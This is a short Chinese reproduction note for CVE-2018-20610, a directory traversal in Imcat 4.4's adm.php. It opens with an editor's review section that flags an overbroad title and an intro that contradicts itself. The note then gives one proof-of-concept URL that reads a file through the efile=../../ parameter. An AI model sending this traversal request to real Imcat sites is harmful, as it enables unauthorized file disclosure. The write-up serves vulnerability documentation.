

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：adm.php编辑接口权限未说明，文件可读；作者Windows D盘测试

- **结论使用边界（1）**：标题敏感信息泄露过泛，实际efile路径穿越读取；简介称尚无相关信息却下有PoC自相矛盾。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（2）**：在D盘先放测试文件且../../路径依赖部署，不能概括任意绝对路径；未说明鉴权。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **证据待核（3）**：图链接尾部重复残片。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

（CVE-2018-20610）Imcat 4.4 敏感信息泄露
========================================

一、漏洞简介
------------

imcat是一套基于PHP的开源建站系统。 imcat
4.4版本中的root/run/adm.php文件存在目录遍历漏洞。目前尚无此漏洞的相关信息，请随时关注CNNVD或厂商公告。

二、漏洞影响
------------

imcat 4.4

三、复现过程
------------

先在D盘创建1.txt

Imcat4.4敏感信息泄露/media/rId24.png)

    http://www.0-sec.org/root/run/adm.php?admin-ediy&part=edit&dkey=runs&dsub=&efile=../../1.txt&dialog=1546054963116&lang=cn

Imcat4.4敏感信息泄露/media/rId25.png)

参考链接
--------

> <https://github.com/AvaterXXX/CVEs/blob/master/imcat.md>
